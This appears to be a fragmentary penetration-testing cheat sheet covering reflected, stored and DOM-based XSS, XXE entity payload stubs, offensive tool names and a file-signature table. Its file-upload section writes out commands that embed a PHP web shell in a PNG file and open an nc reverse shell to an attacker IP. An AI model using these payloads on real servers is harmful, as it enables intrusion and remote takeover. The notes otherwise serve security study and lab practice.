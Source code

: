 ###### Type 2 - Reflected XSS

Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

Reflected attacks are delivered to victims via **another route**, such as in an e-mail message, or on some other website.

When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser.

###### Type 1 - Stored XSS

Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc.

The victim then retrieves the malicious script from the server when it requests the stored information.

###### Type 0 - DOM-Based XSS

> / / / To Finish

fuzzdb/attack-payloads/xss
JBroFuzz
XSSer

XXXsniper
XSSer
XSScrapy
BeEF

##### XML External Entity (XXE)

> / / / To Finish

Attackers can exploit vulnerable XML processors if they can upload XML or include hostile content in an XML document.

XXE are a type of Service-Side Request Forgery. The payload is run at the server side.  
For instance, if the server is running PHP, it will be difficult to see the function that is parsing the given XML document.

- SYSTEM "file:///
- SYSTEM "http://
- SYSTEM "expect://id" :

##### File Upload

cp original.png ./shell.php.png
echo '<?php' >> ./shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> ./shell.php.png
echo '?>' >> ./shell.php.png

| File Type | Mnemonic | Signature |
|-|-|-|
|DOS Executable|"MZ"|0x4D 0x5A|
|PE32 Executable|"MZ"...."PE.."|0x4D 0x5A ... 0x50 0x45 0x00 0x00|
|Mach-O Executable (32 bit)|"FEEDFACE"|0xFE 0xED 0xFA 0xCE|
|Mach-O Executable (64 bit)|"FEEDFACF"|0xFE 0xED 0xFA 0xCF|
|ELF Executable|".ELF"|0x7F 0x45 0x4C 0x46|
|Zip Archive|"PK.."|0x50 0x4B 0x03 0x04|